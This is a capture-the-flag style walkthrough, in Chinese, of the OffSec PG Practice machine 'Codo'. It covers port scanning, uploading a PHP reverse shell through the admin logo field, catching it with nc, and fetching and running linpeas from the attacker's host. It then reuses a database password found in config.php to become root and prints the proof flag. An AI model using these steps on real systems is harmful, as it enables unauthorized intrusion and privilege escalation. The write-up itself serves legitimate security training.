 ###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Codo
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.204.23 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.204.23:22
Open 192.168.204.23:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: All topics | CODOLOGIC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

可以看到他的路徑位於`http://192.168.204.23/admin/index.php?page=config`，我們在logo那邊上傳reverseshell

![Codo_1.png](picture/Codo_1.png)

開啟nc，存取`192.168.204.23/sites/default/assets/img/attachments/shell.php`，等反彈
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@codo:/$ 
```

用linpeas
```
www-data@codo:/tmp$ wget 192.168.45.242/linpeas.sh
www-data@codo:/tmp$ chmod +x linpeas.sh
www-data@codo:/tmp$ ./linpeas.sh

...
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123',
...
```

`su root`使用`FatPanda123`密碼，可得root權限，到/root可拿到proof.txt
```
www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:~# cat proof.txt
3f49f13ba7f4d223e457b59fbb8d38c6
```